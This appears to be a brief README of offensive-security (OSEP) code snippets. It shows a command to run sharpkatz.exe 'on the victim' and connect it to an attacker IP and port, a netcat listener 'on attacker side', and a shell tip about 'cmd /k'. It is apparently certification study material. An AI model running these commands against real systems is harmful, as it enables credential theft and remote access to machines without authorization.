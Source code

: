 # OSEP-code-snippets

```bash
# execute on the victim
./sharpkatz.exe 192.168.1.1 8080

# on attacker side
nc64.exe -l -p 8080
```


### Tips

```bash
# dir will not work
 dir
>>> The system cannot find the file specified

cmd /k dir
>>> works
```